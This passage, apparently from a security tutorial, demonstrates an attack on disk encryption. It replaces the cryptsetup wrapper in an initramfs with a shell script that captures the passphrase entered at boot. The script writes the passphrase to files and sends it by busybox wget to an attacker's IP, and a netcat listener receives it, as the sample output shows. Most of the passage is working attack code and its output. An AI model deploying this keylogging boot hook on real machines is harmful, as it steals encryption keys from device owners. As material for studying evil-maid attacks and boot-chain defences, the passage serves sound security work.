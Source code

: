 The previous attack has the inconvenient part where the attacker has to re-liveboot to get the stolen key from the machine, or at least they have to boot to initramfs, mount boot partition there, and read the key from there.

An alternative would be to send the password over the network if suitable connection is available. To try this, do the same steps as before, but replace the previous script with the one below and modify your "attacker machine's" IP in the place of the example IP.

```sh
#!/bin/sh

# /dev/stdin not available initramfs but piping this way should work
/bin/cat > pass
password=$(cat pass)
echo -n "$password"

########## Debugging ###############################
# If decryption fails and system boots to initramfs,
# you can check parameters and input,
# that were sent to the cryptsetup
/bin/echo "$password" > /stdin.txt
/bin/echo "$@" > /cmdout.txt
####################################################

# Request an IP address from DHCP server and send password
# to the attacker's machine
mkdir -p /var/run
/usr/sbin/dhclient -v || true
# Modify your attacker machine IP here
/bin/echo $password | /usr/bin/busybox wget http://192.168.122.1:1234/"$password" || true

/bin/echo -n "$password" | /usr/sbin/cryptsetup_real "$@"
```

Start netcat listener on your attacker machine `nc -w 1 -l -p 1234`. Ensure that your firewall allows this connection. After replacing the initrd, reboot the machine and give the encryption key as a user.

You should receive the password as part of the HTTP request's URL When wget executes the HTTP request. For example:

```sh
mtask@attacker:~$ nc -w 1 -l -p 1234
GET /SuperSecretKey1111 HTTP/1.1
Host: 192.168.122.1:1234
User-Agent: Wget
Connection: close
```
